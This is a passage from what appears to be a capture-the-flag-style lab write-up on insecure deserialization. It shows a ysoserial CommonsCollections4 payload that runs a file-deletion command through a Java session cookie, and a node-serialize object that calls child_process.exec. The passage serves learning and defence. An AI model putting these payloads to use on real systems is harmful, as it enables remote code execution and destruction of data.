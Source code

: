 - The session cookie seems to have a different format then that we have exploited during PHP Insecure Deserialization lab. The cookie contains **rO0AB** headers on it which determines that it is the Base64 encoded Java Serialized object as discussed on previous lab.
- As the lab requires third party tool to generate the malicious payload, let's use ysoserial.

    ```bash
    wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
    java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
    ```
- Here we used the gadget as **CommonCollections4**. How did I know it? Tried with **CommonsCollections1**, **CommonsCollections2** and so on.
- Replace the output with session cookie on the repeater and send the request.
![image](https://user-images.githubusercontent.com/47778874/228308291-8fd6a26c-10ac-41d9-ac3c-96acf71e5865.png)

- The file morale.txt will be deleted and lab is solved.
![image](https://user-images.githubusercontent.com/47778874/228307783-8242c6c2-eb12-49fd-8210-f4bf0578ba6d.png)

### Deserialization on Node JS
- Serialization is usually performed on Node JS using a module called [node-serialize.](https://www.npmjs.com/package/node-serialize). This module contains an **eval()** function and can be exploited if the data passed is not validated properly. If we view the source code of the module **node-serialize**, we can find that it contains **eval()** functions on line 76 as shown below.
```js
if(obj[key].indexOf(FUNCFLAG) === 0) {
    obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
```
- Before its exploitation, let's talk about how serialization works on Node JS. We need to install the module **node-serialize** for it using `npm install node-serialize` command.
```js
var nodeSerialize = require("node-serialize")

var obj = {
  name: 'Bob',
  say: function() {
    return 'hi ' + this.name;
  }
};

var objS = nodeSerialize.serialize(obj);
console.log(objS)
```
- Run the code using `node` command
```bash
node nodedemo.js 
{"name":"Bob","say":"_$$ND_FUNC$$_function() {\n    return 'hi ' + this.name;\n  }"}
```
- In the above code, **obj** object has two properties: **name**, which is set to the string **Bob**, and **say**, which is a function that returns the string **hi** followed by the value of the **name** property. The **node-serialize** library is then used to serialize the **obj** object.
- How this can be vulnerable?
- Let's copy the same code and make some changes here.
```js
var nodeSerialize = require("node-serialize")

var obj = {
  name: 'Bob',
  say: function(){
require('child_process').exec('ls -la', function(error, stdout, stderr) { console.log(stdout) });
}(),
};

var objS = nodeSerialize.serialize(obj);
console.log(objS)
```